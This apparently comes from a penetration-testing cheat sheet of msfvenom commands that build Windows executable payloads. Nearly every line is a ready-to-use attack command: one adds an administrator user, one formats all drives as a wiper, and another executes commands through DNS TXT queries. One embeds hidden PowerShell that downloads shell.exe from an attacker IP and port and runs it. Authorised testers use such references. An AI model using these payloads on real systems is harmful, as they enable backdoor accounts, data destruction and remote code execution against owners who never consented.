 # Exec Payloads

## Add User Windows Exec Payload

`$ msfvenom -p windows/adduser user=<username> pass=Password1234! wmic=false custom=<group_name>`

## DNS TXT Query Exec Windows Payload

`$ msfvenom -p windows/dns_txt_query_exec dnszone=<domain.com> -f exe -o dns-query-x86.exe`

## Execute Windows Exec Payload

`$ msfvenom -p windows/exec cmd=<commands> -f exe -o exec-x86.exe`

`$ msfvenom -p windows/x64/exec cmd=<commands> -f exe -o exec-x64.exe`

`$ msfvenom -p windows/x64/exec cmd="powershell.exe -w hidden -noni -nop -c \"IEX (new-object net.webclient).downloadfile('http://<IP>:<PORT>/shell.exe', 'C:\Windows\Temp\shell.exe');start-process C:\Windows\Temp\shell.exe\"" -f exe -o exec-x64.exe`

## Text-To-Speech Windows Exec Payload

`$ msfvenom -p windows/speak_pwned -f exe -o speak-x86.exe`

## Format All Drives Windows Exec Payload

`$ msfvenom -p windows/format_all_drives volumelabel=<label> -f exe -o wiper-x86.exe`

## Messagebox Windows Exec Payload

`$ msfvenom -p windows/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x86.exe`

`$ msfvenom -p windows/x64/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x64.exe`

## LoadLibrary Windows Exec Payload

`$ msfvenom -p windows/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x86.exe`

`$ msfvenom -p windows/x64/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x64.exe`